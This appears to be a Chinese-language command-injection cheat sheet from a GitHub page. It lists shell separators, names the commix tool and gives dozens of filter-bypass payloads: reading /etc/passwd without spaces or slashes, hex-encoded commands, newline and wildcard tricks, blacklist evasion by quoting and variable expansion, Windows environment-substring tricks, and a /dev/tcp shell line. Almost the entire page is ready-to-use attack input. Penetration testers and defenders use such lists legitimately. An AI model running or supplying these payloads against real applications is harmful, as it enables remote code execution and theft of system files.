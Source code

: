     	有时应用程序会接受用户提供的输入并作为参数传递给命令行上的工具。 将用户提供的输入传递给命令行总是一个坏主意，应该避免。 根据操作系统，您可以使用多种技术来执行其他命令，从而允许攻击者获得 RCE
    	& 
    	&&
    	|
    	||
    	;
    	`Command`
    	$(Command)
#### 工具
  	https://github.com/commixproject/commix
#### 绕过 bypass
##### Linux无空格
	cat</etc/passwd
	{cat,/etc/passwd}
	cat$IFS/etc/passwd
	echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
	X=$'uname\x20-a'&&$X
	sh</dev/tcp/127.0.0.1/4242
	IFS=,;`cat<<<uname,-a`
	;ls%09-al%09/home
##### Windows
	ping%CommonProgramFiles:~10,-18%IP
	ping%PROGRAMFILES:~10,-5%IP
##### 绕过回车
	something%0Acat%20/etc/passwd
	写文件
	;cat>/tmp/hi<<EOF%0ahello%0aEOF
	;cat</tmp/hi
	hello
##### 通过十六进制编码绕过
  	Linux
	cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
	abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc
	`echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
	cat `xxd -r -p <<< 2f6574632f706173737764`
	cat `xxd -r -ps <(echo 2f6574632f706173737764)`
##### 绕过字符过滤器
	没有反斜杠和斜杠的命令执行
	cat ${HOME:0:1}etc${HOME:0:1}passwd
	cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
##### 绕过列入黑名单的词
  	单引号w'h'o'am'i
	双引号w"h"o"am"i
	用反斜杠和斜杠绕过
	w\ho\am\i
	/\b\i\n/////s\h
	使用 $@ 绕过
	who$@ami

	echo $0
	-> /usr/bin/zsh
	echo whoami|$0
	使用 $() 绕过
	who$()ami
	who$(echo am)i
	who`echo am`i
	使用变量扩展绕过
	/???/??t /???/p??s??

	test=/ehhh/hmtc/pahhh/hmsswd
	cat ${test//hhh\/hm/}
	cat ${test//hh??hm/}
	使用通配符绕过
	powershell C:\*\*2\n??e*d.*? # notepad
	@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc